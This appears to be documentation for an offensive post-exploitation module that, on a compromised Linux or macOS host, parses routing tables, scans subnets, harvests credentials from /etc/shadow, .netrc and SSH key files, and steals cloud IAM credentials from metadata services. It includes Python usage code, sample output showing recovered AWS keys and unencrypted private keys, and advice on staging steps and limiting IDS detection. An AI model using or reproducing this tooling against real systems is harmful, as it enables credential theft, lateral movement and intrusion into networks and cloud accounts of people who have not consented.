

# Internal Network Reconnaissance

Parse ARP tables and routing tables, discover adjacent subnets, harvest credentials from the local filesystem, probe cloud metadata services (AWS/GCP/Azure/OCI), enumerate SSH keys and known_hosts, and detect API tokens in environment variables and configuration files — providing lateral movement material from a compromised Linux/macOS host — via `modules/lateral_movement.py`.

---

## Why this exists

1. **`NetworkDiscovery` parses ARP and routing tables in pure Python** — reading `/proc/net/arp` and `/proc/net/route` directly, it produces a list of reachable subnets and known hosts without running `ip route` or `arp -a`. The subnet list seeds parallel TCP connect scanning via `NetworkDiscovery.scan_subnet_parallel()`, which uses Python threads to scan all 254 hosts in a /24 within seconds.

2. **`CredentialHarvester` extracts credentials from well-known filesystem locations** — `/etc/passwd`, `/etc/shadow`, `/home/*/.netrc`, `/home/*/.ssh/`, `/var/lib/git/.git/config`, and application configuration files in `/etc/` and `/opt/`. `SSHKeyEnumerator` enumerates all RSA/ECDSA/ED25519 private keys and `known_hosts` files found in user home directories, providing direct lateral movement material for SSH-accessible hosts.

3. **`CloudMetadataProber` queries IMDS endpoints** — AWS (`169.254.169.254/latest/meta-data/iam/security-credentials/`), GCP (`169.254.169.254/computeMetadata/v1/instance/service-accounts/`), Azure (`169.254.169.254/metadata/instance/`), and OCI. Successful queries return temporary access credentials (IAM role credentials, service account tokens) that provide cloud API access from the compromised instance.

---

## How it works



---

## Usage

```python
from modules.lateral_movement import (
    NetworkDiscovery, CredentialHarvester,
    CloudMetadataProber, SSHKeyEnumerator
)

# ARP + routing recon
nd = NetworkDiscovery()
subnets = nd.parse_routing_table()
for subnet in subnets[:3]:
    print(f"  Subnet: {subnet}")
    hosts = nd.scan_subnet_parallel(subnet['subnet'])
    for h in hosts:
        print(f"    {h['ip']}  ports={h['open_ports']}")

# Cloud metadata
cloud = CloudMetadataProber()
aws_creds = cloud.probe_aws()
if aws_creds:
    print(f"AWS IAM role: {aws_creds.get('role')}  KeyId={aws_creds.get('AccessKeyId')}")
```

---

## Example output

The following illustrates internal reconnaissance output format.

```
NetworkDiscovery: routing table

Subnets: [10.0.0.0/24, 172.16.0.0/16]

Scan 10.0.0.0/24:
  10.0.0.1  ports=[22, 443]
  10.0.0.5  ports=[22, 80, 5432]

CloudMetadataProber:
  AWS IAM role: ec2-instance-role
  AccessKeyId: ASIA...  SecretAccessKey: <recovered>  Token: <recovered>

SSHKeyEnumerator:
  /home/user/.ssh/id_rsa  → RSA 2048 (unencrypted)
  /home/user/.ssh/known_hosts  → 5 entries
```

---

## False positives

**`scan_subnet_parallel()` TCP connect scanning** — TCP SYN to all hosts in a subnet is highly detectable by IDS/IPS systems and will generate alerts in monitored environments. Limit to targeted scanning of specific IPs identified from ARP/routing tables.

**`APITokenDetector.scan_env_variables()`** — environment variables that contain the word `TOKEN`, `KEY`, or `SECRET` in their name but do not hold actual credentials (e.g., `MAX_RETRY_COUNT`) will not produce false matches because the detector checks value format (length ≥ 20, entropy ≥ 3.5 bits/char), not just key name.

---

## Pipeline position

Run internal network reconnaissance after gaining shell access. ARP/routing parsing is passive and safe; TCP scanning is active and detectable. Run cloud metadata probing before credential harvesting — cloud credentials are the highest-value lateral movement material.

---

## See also

- [Local Network Inventory](local-network-inventory.md) — `NetworkAnalyzer` for interface and firewall state
- [Host/Service Discovery](host-service-discovery.md) — ICMP discovery and banner grabbing for confirmed live hosts
